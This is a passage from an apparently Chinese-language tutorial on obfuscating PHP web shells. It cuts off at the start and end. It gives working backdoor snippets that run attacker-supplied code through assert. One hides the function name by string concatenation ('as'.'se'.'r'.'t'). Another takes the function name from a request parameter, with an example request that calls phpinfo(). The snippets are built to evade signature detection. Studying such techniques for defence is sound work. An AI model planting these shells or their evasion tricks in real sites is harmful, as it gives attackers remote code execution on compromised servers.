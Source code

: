 ![base64_decode](../../images/8-17-afternoon/base64_decode.png)

##### c. .操作符

```php
<?php
$a = "as"."se";
$b = "r"."t";
$c = $a.$b;
$c($_REQUEST['cmd']);
?>
```

![点字符连接](../../images/8-17-afternoon/点字符连接.png)

##### d. 更换数据源

###### ①隐藏assert

```php
<?php
//？a=assert&cmd=phpinfo();
$_REQUEST[a]($_REQUEST['cmd']);
?>
```

![更换数据源1](../../images/8-17-afternoon/更换数据源1.png)

###### ②嵌套$_REQUEST
